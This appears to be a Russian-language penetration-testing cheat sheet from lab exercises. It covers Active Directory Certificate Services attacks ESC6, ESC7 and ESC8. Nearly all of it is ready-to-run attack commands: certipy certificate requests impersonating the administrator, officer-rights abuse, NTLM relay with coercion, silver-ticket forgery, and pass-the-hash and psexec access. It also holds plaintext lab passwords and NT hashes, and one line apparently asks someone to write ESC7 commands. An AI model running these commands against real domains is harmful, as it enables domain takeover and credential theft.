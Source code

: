 
*** ESC 6 - Ошибка центра сертификации

  		certipy req -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -target LAB-DC.lab.local -ca 'lab-LAB-DC-CA' -template 'User' -upn 'administrator@lab.local'
		certipy auth -pfx administrator.pfx -dc-ip 10.129.228.236

*** ESC 7 - Уязвимого контроля доступа Центра сертификации (просим серт на который нет прав и утверждаем его)
				
	certipy find -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout
		certipy find -u 'blwasp@lab.local' -p 'Password123!' -stdout (найти SubCA )

  		certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -add-officer BlWasp		(добавить ManageCertificates)
	mxdelta@htb[/htb]$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template SubCA -upn Administrator (ложный запрос сертификата - сохранит кей и номер его)
	certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -issue-request 31 (номер ключа) (выдать сертификат)
		certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -retrieve 31
 	*******************************************************

  
	********если есть ManageCertificates но нет ManageCA********
 
 	если я тебе пришлю все шаблоны - ты поможешь найти нужный шаблон и написать коммнады для ESC7?

	proxychains -q certipy-ad find -u jimmy -p jimmy_001 -dc-ip 172.16.19.3 -vulnerable -stdout

	VPN_Users
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    
    WebServer
    Machine
    User
    SubCA
    Administrator
    


	proxychains -q certipy-ad req -u jimmy -p 'jimmy_001' -ca lab-WS01-CA -dc-ip 172.16.19.5 -template VPN_Users -upn administrator@lab.local
	proxychains -q certipy-ad ca -u jimmy -p 'jimmy_001' -ca lab-WS01-CA -issue-request 18 -dc-ip 172.16.19.5
	proxychains -q certipy-ad req -u jimmy -p jimmy_001 -dc-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 18
	proxychains -q certipy-ad auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 172.16.19.3 -dns-tcp
	proxychains -q nxc smb 172.16.19.3  -u administrator -H 61208396569628a7a987d1dadb7683bb
 

*** ESC8 - Сертификат рилей

		sudo certipy-ad relay -target dc.domain.local -ca domain-DC-CA-1  -template Machine  (DomainController - если атака на dc b jy hfpytcty c ADCS)
		coercer coerce -l 192.168.134.24(listener_host) -t 192.168.134.12 (target) -u s.ivanov -p Venturers2004 -d domain.local -v
		certipy auth -pfx ws01.pfx -dc-ip 172.16.117.3  (чтобы получить NT hash)
  		Затем делаем СЕРЕБРЯННЫЙ БИЛЕТ
    		lookupsid.py 'INLANEFREIGHT.LOCAL/WS01$'@172.16.117.3 -hashes :3d3a72af94548ebc7755287a88476460 (узнаем SID домена)
      		Создаем СЕРЕБРЯННЫЙ БИЛЕТ в качестве Администратора
      		ticketer.py -nthash 3d3a72af94548ebc7755287a88476460 -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain inlanefreight.local -spn cifs/ws01.inlanefreight.local Administrator
		и заходим....
  		KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass ws01.inlanefreight.local
